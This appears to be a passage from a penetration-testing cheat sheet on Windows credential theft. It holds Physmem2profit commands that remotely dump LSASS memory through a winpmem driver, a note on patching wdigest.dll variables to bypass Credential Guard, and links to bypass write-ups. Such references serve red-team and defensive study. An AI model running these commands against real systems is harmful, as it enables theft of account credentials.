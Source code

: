 ```diff
-                ("NThash", str),
-                ("LMHash", str),
-                ("SHAHash", str),
-                ("masterkey", str),
-                ("masterkey (sha1)", str),
-                ("key_guid", str),
-                ("password", str),
-            ],
-            pparser.go_volatility3(self),
-        )
+        return pparser.go_volatility3(self)
```
{% endcode %}
{% endhint %}



### Physmem2profit

- [https://labs.withsecure.com/blog/rethinking-credential-theft/](https://labs.withsecure.com/blog/rethinking-credential-theft/)
- [https://github.com/FSecureLABS/physmem2profit](https://github.com/FSecureLABS/physmem2profit)
- [https://github.com/Velocidex/WinPmem/releases/tag/v4.0.rc1](https://github.com/Velocidex/WinPmem/releases/tag/v4.0.rc1)

Server:

```
PS > .\Physmem2profit.exe --ip 192.168.1.11 --port 1337 --verbose [--hidden]
```

Client:

```
$ python3 physmem2profit --host 192.168.1.11 --port 1337 --install "C:/Windows/Temp/winpmem_x64.sys" --mode all --driver winpmem
```




## Credential Guard



### Patch and Bypass

- [https://icebreaker.team/blogs/sleeping-with-control-flow-guard/](https://icebreaker.team/blogs/sleeping-with-control-flow-guard/)

Patch the `g_fParameter_UseLogonCredential` and `g_IsCredGuardEnabled` variables by their hardcoded offsets within `wdigest.dll` loaded by LSASS:

- [https://teamhydra.blog/2020/08/25/bypassing-credential-guard/](https://teamhydra.blog/2020/08/25/bypassing-credential-guard/)
- [https://gist.github.com/N4kedTurtle/8238f64d18932c7184faa2d0af2f1240](https://gist.github.com/N4kedTurtle/8238f64d18932c7184faa2d0af2f1240)
